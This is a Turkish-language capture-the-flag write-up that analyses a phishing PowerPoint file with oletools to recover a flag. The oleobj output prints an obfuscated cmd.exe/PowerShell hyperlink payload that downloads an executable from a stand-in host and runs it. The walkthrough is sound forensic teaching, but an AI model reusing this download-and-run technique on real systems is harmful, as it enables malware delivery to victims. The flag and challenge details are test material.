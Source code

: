 ### FORENSIC / ALIEN PHISH

<p>Forensic kategorisindeki bu soruda indirilen zip dosyasının içerisinden "Alien Weaknesses.pptx" dosyası çıkmaktadır.</p>

```bashscript
$ unzip forensic_alienphish.zip
Archive:  forensics_alienphish.zip
  inflating: Alien Weaknesses.pptx
```
"[oletools](https://github.com/decalage2/oletools)" ole dosyaları analiz araç kiti içerisinden "oleobj" aracını 
kullanarak pptx dosyası içeriğindeki objeleri çıkartabiliriz.

```bashscript
$ oleobj "Alien Weaknesses.pptx"
oleobj 0.56.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

-------------------------------------------------------------------------------
File: 'Alien Weaknesses.pptx'
Found relationship 'hyperlink' with external link cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20
exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$
%20=%20o$%22%20c-%20llehsrewop&&for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&
&if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
Found relationship 'hyperlink' with external link cmd.exe
```
Dosya içeriğinden 'hyperlink' ile bağlantılı bir dış link bulunduğu görülmektedir. Elde edilen çıktı ters çevirildiğinde içerisinde bulunan exe uzantılı dosya ismi dikkat çekmektedir.

```bashscript
$ oleobj "Alien Weaknesses.pptx" | awk -F\' '{print $4}'                                  1 ⨯

exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q
```
Bu dosya ismi ters çevirildiğinde ve base64 decode edildiğinde bayrak elde edilmektedir.

```bashscript
$ oleobj "Alien Weaknesses.pptx" | awk -F\' '{print $4}' | rev | base64 -di               1 ⨯
CHTB{pH1sHiNg_w0_m4cr0s��^�base64: invalid input
```
#### BAYRAK : __CHTB{pH1sHiNg_w0_m4cr0s???}__

